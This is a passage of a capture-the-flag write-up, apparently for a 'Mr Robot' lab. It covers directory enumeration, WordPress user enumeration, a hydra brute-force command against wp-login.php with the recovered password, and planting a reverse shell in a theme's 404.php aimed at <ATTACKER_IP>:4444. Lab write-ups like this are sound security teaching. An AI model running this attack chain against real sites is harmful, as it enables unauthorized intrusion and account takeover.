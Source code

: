 ### 2.1 Directory discovery

Run directory/file enumeration to find hidden files, backups and admin panels:

```bash
gobuster dir -u http://10.10.64.***/ -w /usr/share/wordlists/dirb/common.txt -t 40 -x php,txt,html
# or
ffuf -u http://10.10.64.***/FUZZ -w /root/tools/wordlists/fsocity.dic
```

### 2.2 First flag (public file)

During enumeration a publicly-accessible text file was discovered and downloaded. That file contained **key-1-of-3**:

```text
073403c8a58a1f80d943455fb30724b9
```

---

## 3) WordPress Discovery & Initial Access

### 3.1 WP discovery

A WordPress installation was present. Enumerate users:

```bash
wpscan --url http://10.10.64.***/ --enumerate u
```

Found user: `elliot`.

### 3.2 Targeted credential guessing

A lab-provided dictionary (`fsocity.dic`) contained the intended credential. Instead of blind large-scale bruteforce, deduplicate and use a targeted approach:

```bash
sort -u fsocity.dic -o fsocity_clean.dic
hydra -l elliot -P fsocity_clean.dic 10.10.64.*** http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

Password found: `ER28-0652` (present in `fsocity.dic`).

---

## 4) Initial shell via WordPress

### 4.1 Login and theme editor

Login to `http://10.10.64.***/wp-admin/` with the `elliot` account. Use the Theme Editor (Appearance → Theme Editor) to modify a template file (e.g., `404.php`) and insert a minimal reverse shell payload pointing to your listener at `<ATTACKER_IP>:4444`.
